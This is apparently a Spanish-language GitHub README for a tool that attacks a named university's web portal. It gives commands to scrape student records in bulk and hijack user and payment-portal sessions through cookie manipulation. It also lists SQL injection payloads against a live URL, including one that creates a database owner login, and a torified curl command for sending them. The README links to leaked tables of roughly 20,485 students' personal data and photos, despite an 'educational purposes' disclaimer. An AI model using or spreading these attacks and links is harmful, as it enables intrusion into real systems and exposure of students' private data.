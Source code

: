 
<div align="end">
<img
 style="object-fit: cover;"
 src="./assets/icons8-hack-60.png" >
</div>

# Script scraping vunerability from uped portal

> [!CAUTION]
> Este script fue creado con fines educativos,en ningun momento se pretende hacer daño a la universidad o a su portal web al contrario se pretende ayudar a mejorar la seguridad de la misma

## 🗒️ Descripcion

Script que permite obtener la información de estudiantes y la sesion de un usuario en el portal de la universidad. Ademas de poder inyectar codigo SQL en una cookie en la base de datos de la universidad.

## 🍪 En que consiste la vulnerabilidad

La vunerabilidad consiste en manipular la cookie de una session para obtener la informacion de un usuario sin necesidad de logearse en el portal de la universidad.

la estructura de cookie es la siguiente:

```json
{
  ".ASPXAUTH": "puede ser cualquier sesion",
  "ASP.NET_SessionId": "id de la session del autenticacion",
  "CodigoUsuario": "codigo del usuario",
  "usuario": "nombre del usuario",
}
```

## 📋 Requisitos

- Node.js v20.0.0

## 🚀 Instalación

```bash
git clone https://github.com/epmyas2022/uped-vunerabilidad.git
```

```bash
npm install
```

Configurar las variables de entorno en el archivo `.env`

```env
ASPXAUTH=#de cualquier sesion
SESSION_ID=#id de la session del autenticacion
ARGS=#argumentos para el navegador
```

## 💻 Comandos

Obtener la informacion del expediente de los estudiantes basados en un rango  x1 a x2

```bash
npm run general <x1> <x2> [optional | Boolean] <headless>
```

Obtener la sesion de un usuario

```bash
npm run login <user> <codigo>
```

Obtener la sesion del portal de pagos de un estudiante

```bash
npm run pagos <user> <codigo>
```

## 🐳 Con docker

Esto es util para ejecutar el script en un contenedor docker, podriamos ejecutar x cantidad de contenedores para obtener la informacion de los estudiantes.

Construir la imagen (builder)

```bash
docker build -f .docker/Dockerfile --target builder -t uped-vunerabilidad .
```

Construir el contenedor

```bash
docker run -it -d -e ASPXAUTH=token -e SESSION_ID=id -e FROM=desde -e TO=hasta --privileged --security-opt seccomp=.docker/chrome.json uped-vunerabilidad
```

## 📂 Estructura de archivos

Dentro de la carpeta data se encuentra varios datos con que se comprobo la vulnerabilidad del portal de la universidad. estos datos obtenidos fueron mediante el script aprovechando la vulnerabilidad.
en total existen aproximadamente **20,485** registros de estudiantes.

## 💉 Vunerabilidad en inyeccion de SQL

Se descubrio otra vunerabilidad que permite inyectar codigo SQL en una cookie y mediante esto se logro obtener acceso a la base de datos de la universidad. La url a la que se le inyecto el codigo SQL fue la siguiente:

```url
https://myappcloud.net/uped/portal_catedratico/externa.aspx
```

Ejemplo de inyeccion SQL

Con esto se valida si es vulnerable a inyeccion SQL si es vunerable se demorara 20 segundos en responder.

```sql
' BEGIN WAITFOR DELAY '0:0:20'--
```

Con la siguiente inyeccion se logro encontrar cual es el nombre de la base de datos de la universidad.

```sql
' IF EXIST (SELECT 1 FROM sys.databases WHERE name LIKE '%uonline_uped%') BEGIN WAITFOR DELAY '0:0:20' END--
```

Con la siguiete inyeccion se logro crear un usuario en la base de datos de la universidad para su posterior uso.

```sql
'IF  (SELECT COUNT(*) FROM sys.databases WHERE name LIKE 'uonline_uped') > 0 BEGIN USE uonline_uped CREATE LOGIN mssql_user WITH password = 'your_password' CREATE USER mssql_user FOR LOGIN mssql_user ALTER ROLE db_owner ADD MEMBER mssql_user WAITFOR DELAY '0:0:20' END--
```

Ejemplo de `curl` para inyectar codigo SQL

```bash
torify curl -X GET "https://myappcloud.net/uped/portal_catedratico/externa.aspx" \
  --cookie ".ASPXAUTH=<auth_de_cualquier_sesion>" \
  --cookie "ASP.NET_SessionId=<id_de_cualquier_sesion>" \
  --cookie "CodigoUsuario=1789" \
  --cookie "Usuario=<injection_sql>" 
```

## 💻 Descargar datos

- Tabla de *ra_per_personas* (informacion de estudiantes) [aqui](https://u.pcloud.link/publink/show?code=XZvRx55ZgUc7an7IIyfF27CLa93Wo7KCf6Yy)

- Tabla de *ra_per_foto_carne* (foto de carne de estudiantes) [aqui](https://u.pcloud.link/publink/show?code=XZ9sx55ZEXFqi3MoUjzyXUdw1isK1jm1Wu0y)

## 🔗 Sitios vulnerables

- [x] Portal de la universidad [aqui](https://myappcloud.net/uped/login.aspx)
- [x] Portal de pagos [aqui](https://saas.spsoftware.net/uped_pagos/)
- [x] Base de datos uonline_uped [aqui](https://myappcloud.net/uped/portal_catedratico/externa.aspx)
